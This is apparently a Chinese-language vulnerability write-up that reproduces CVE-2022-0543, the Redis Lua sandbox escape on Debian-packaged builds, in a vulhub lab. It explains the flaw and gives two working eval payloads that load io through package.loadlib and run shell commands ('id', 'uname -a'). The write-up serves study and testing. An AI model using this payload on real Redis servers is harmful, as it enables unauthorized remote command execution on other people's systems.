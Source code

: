 # 0x01 原理浅析
Debian及其衍生版打包Redis时，在Lua沙箱中遗留了一个对象package，攻击者可以利用这个对象中的loadlib函数来加载动态链接库liblua5.1.so.0中的导出函数luaopen_io，执行这个导出函数获得io库，最后使用其执行命令，作者提到不同系统下liblua5.1.so.0的路径可能不同，所以需要在本地对照一下，，，吐槽一句，不能打红帽系有点鸡肋了......

# 0x02 先决条件
01 未授权访问或拿到账号密码  
02 目标为Debian及其衍生版  

# 0x03 漏洞复现
使用p牛的vulhub搭建环境：https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  
搭建好的环境是redis 5.0.7，且存在未授权访问  
执行如下payload  
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0

eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("uname -a", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![image](./pic/01.png)  

# 0x04 参考文章
https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce  
https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543  